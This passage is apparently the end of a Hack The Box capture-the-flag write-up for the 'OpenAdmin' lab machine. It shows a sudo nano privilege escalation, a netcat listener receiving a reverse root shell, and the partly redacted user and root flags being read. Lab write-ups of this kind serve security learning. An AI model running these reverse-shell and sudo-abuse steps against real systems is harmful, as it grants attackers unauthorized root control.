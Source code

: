 ```
joanna@openadmin:~$ sudo /bin/nano /opt/priv
```
![](/assets/images/htb-writeup-openadmin/nano-exploited.png)

![](/assets/images/htb-writeup-openadmin/send-bash.png)

```
nc -nlvp 443

listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.171] 43582
root@openadmin:/home/joanna# whoami
whoami
root
```

```
root@openadmin:/# cat /home/joanna/user.txt
ae16aeddab..

root@openadmin:/# cat /root/root.txt
b640cba406..
```

# Thanks for reading! This is my first write-up and day by day I will be improving the new ones.
